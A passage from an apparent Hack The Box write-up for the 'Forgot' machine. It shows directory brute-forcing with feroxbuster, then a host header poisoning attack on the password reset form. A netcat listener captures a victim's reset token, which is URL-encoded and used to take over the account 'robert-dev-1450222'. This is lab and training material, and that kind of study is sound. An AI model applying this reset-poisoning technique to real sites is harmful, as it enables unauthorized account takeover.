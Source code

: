 During hiden directory scanning found 2 login pages and password reset page.
```
┌──(kali㉿kali)-[~/workspace/HTB/machine/forgot]
└─$ feroxbuster -u http://forgot.htb/ -w ~/workspace/tools/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt  

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://forgot.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /home/kali/workspace/tools/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
302      GET        5l       22w      221c http://forgot.htb/login => http://forgot.htb
302      GET        5l       22w      221c http://forgot.htb/home => http://forgot.htb
401      GET        1l        2w       19c http://forgot.htb/tickets
200      GET      253l      498w     5227c http://forgot.htb/forgot
200      GET      261l      517w     5523c http://forgot.htb/reset
```
in which `forgot` and `tickets` is a login page and `reset` is  a password reset form.

From source code we find a username `robert-dev-1450222`. we tried host header poisioning in `/reset` page and found a vaild token 
```
┌──(kali㉿kali)-[~/workspace/HTB/machine/forgot]
└─$ nc -nvlp 6565
listening on [any] 6565 ...
connect to [10.10.16.2] from (UNKNOWN) [10.129.72.49] 57426
GET /reset?token=lpHFT2RstJuJSM1EKSfEPsZrASQLQlzt/QNtGC8Zyn4/C0j7Qdcu5ePW/akU/k2mhB/5bsG6dxnlrt5UekzUHA== HTTP/1.1
Host: 10.10.16.2:6565
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

for successfull login url encode the token.
url looks like `http://machineip/reset?token=BW04FF6SO9v9ohCGOXDhf18gF%2BYVV%2BC85Q594FSq6Kqbvohr1WcJW%2B1jIiISGlsx6cX7jaaIuY0IcS2QXOFjJg%3D%3D`
follow to the link and set new password. login via username `robert-dev-1450222` and newly set password.
`admin password cannot be reset` 
while chehcking through the source code we find another endpoint named `admin_tickets` which is acces denied
